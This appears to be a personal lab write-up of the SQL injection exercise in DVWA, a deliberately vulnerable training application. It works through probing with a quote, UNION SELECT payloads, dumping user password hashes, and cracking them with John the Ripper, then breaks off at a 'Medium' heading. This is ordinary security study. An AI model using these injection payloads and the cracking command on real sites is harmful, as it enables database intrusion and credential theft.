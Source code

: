 # low
- we see a form that takes user input in the form of a "User ID"
- the form takes our input and returns the user's ID, first name, and last name.
- we test for SQLI
-  a single quote character (')
- we see an error
- You'll see something like this when user input isn't correctly sanitized before being used in a server-side SQL query
- we see from the error that the db is mariadb
- Reviewing the MariaDB documentation tells us that the special character % functions as a wildcard
- We'll need to find away to break out of the query the code wants us to make
- ```
  %' or '0'='0
  ```
- start seeing where DVWA keeps the passwords
- ```
  %' or '0'='0' union select * from password #
  ```
- No luck on that specific column, but it does confirm the database name of "dvwa"
- reviewing the MariaDB documentation tells us more useful info. It appears that we can pull all the column names from a MariaDB built-in table called "information_schema.COLUMNS"
- ```
  %' or '0'='0' union select COLUMN_NAME from information_schema.COLUMNS #
  ```
- says the amount of columns we're trying to pull don't equal the amount of columns we're displaying
- we make modifications
- ```
  %' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS #
  ```
- we see alot of output after alot of modification we got the final payload
- ```
  %' or '0'='0' union select user, password from dvwa.users #
  ```
- this payload also works from portswigger
- ```
  ' UNION SELECT user, password FROM users#
  ```
- now we got the password hashes
- we crack them using john
- ```
  john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5

  ```
# Meduium

